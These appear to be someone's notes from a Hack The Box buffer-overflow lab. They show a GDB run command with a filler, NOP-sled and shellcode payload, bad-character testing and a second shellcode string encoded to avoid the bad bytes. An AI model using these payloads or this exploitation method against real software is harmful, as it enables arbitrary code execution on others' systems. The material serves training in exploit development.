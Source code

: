 ```shell-session
run $(python -c 'print("\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xba\xca\x8b\x27\xfa\xdb\xd0\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x12\x83\xe8\xfc\x31\x50\x0e\x03\x9a\x85\xc5\x0f\x2b\x41\xfe\x13\x18\x36\x52\xbe\x9c\x31\xb5\x8e\xc6\x8c\xb6\x7c\x5f\xbf\x88\x4f\xdf\xf6\x8f\xb6\xb7\x02\x7a\x46\x44\x7b\x78\x58\x51\x42\xf5\xb9\xd5\xd2\x55\x6b\x46\xa8\x55\x02\x89\x03\xd9\x46\x21\xf2\xf5\x15\xd9\x62\x25\xf5\x7b\x1a\xb0\xea\x29\x8f\x4b\x0d\x7d\x24\x81\x4e" + "\x66" * 4)')



#### Character List

  Character List

```shell-session
gdxqpardo@htb[/htb]$ CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
^^^ Chars to avoid when generating shellcode.

#### Calculate CHARS Length

  Calculate CHARS Length

```shell-session
gdxqpardo@htb[/htb]$ echo $CHARS | sed 's/\\x/ /g' | wc -w
```
This string is `256` bytes long. So we need to calculate our buffer again.

#### Notes

  Notes

```shell-session
Buffer = "\x55" * (1040 - 256 - 4) = 780
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4
```
```shell-session
"\x01\x02\x03\x04\x05\x06\x07\x08\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
```
\x00\x09\x0a\x20

"\xdb\xca\xd9\x74\x24\xf4\xbb\x82\xfc\x62\x5f\x5f\x29\xc9\xb1\x12\x31\x5f\x17\x03\x5f\x17\x83\x45\xf8\x80\xaa\x78\xda\xb2\xb6\x29\x9f\x6f\x53\xcf\x96\x71\x13\xa9\x65\xf1\xc7\x6c\xc6\xcd\x2a\x0e\x6f\x4b\x4c\x66\x7a\xa1\xa1\x75\x12\xb7\xbd\x62\xdb\x3e\x5c\x24\x7d\x11\xce\x17\x31\x92\x79\x76\xf8\x15\x2b\x10\x6d\x39\xbf\x88\x19\x6a\x10\x2a\xb3\xfd\x8d\xf8\x10\x77\xb0\x4c\x9d\x4a\xb3"
```
